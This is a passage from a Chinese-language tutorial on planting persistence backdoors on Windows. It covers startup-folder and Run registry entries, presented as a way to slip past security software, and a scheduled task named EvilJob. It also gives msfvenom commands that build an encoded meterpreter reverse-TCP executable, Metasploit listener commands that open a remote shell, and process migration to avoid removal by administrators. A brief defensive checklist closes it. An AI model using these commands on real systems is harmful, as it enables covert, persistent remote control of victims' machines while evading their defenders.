     在Windows系统通常可以在绝对路径`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup` 下放置程序或者脚本文件，在该目录下的程序会在Windows系统重启后第一时间运行。但文件存放于启动目录下会被安全防护软件拦截，此时可以添加注册表启动项，从而达到绕过全防护软件拦截的目的。
    
    `计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
    
    在该目录下右键新建—>新建字符串。
    
- **计划任务后门**
    
    ```bash
    # 在目标主机上建立一个每天凌晨时运行的计划任务EvilJob
    schtasks /create /sc DAILY /st 00:01 /tn EvilJob /tr c:\start.bat
    # 查看计划任务
    schtasks /query /tn EvilJob
    # 立即执行计划任务
    schtasks /run /tn EvilJob
    # 删除计划任务
    schtasks /delete /tn EvilJob
    ```
    
- **网络远控后门**
    
    使用msf生成”.exe”后门。
    
    ```bash
    # 生成exe后门
    ──(root㉿kali)-[~/Desktop]
    └─# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.217.128 LPORT=8080 -f exe -e x64/xor_dynamic -i 15 -o /root/msf.exe**
    # 在msf里使用侦听模块开启侦听
    ┌──(root㉿kali)-[~]
    └─**# msfconsole**       
    msf6 > **use /exploit/multi/handler**
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set lhost 192.168.217.128 
    msf6 exploit(multi/handler) > set lport 8080
    msf6 exploit(multi/handler) > show options
    msf6 exploit(multi/handler) > exploit
    ```
    
    此类后门有一些特征信息可在一些系统监视器上被发现，极易被管理员清除，此时可以通过进程迁移的方式，注入其他同权限或低权限的进程中：`migrate 目标pid`
    
    PS： 防范措施
    
    - 查看注册表启动项
    - 查看服务启动
    - 查看可疑网络连接
    - 查看系统重要目录中的隐藏文件
    - 查”svchost.exe”宿主程序中的服务
    - 查数字签名
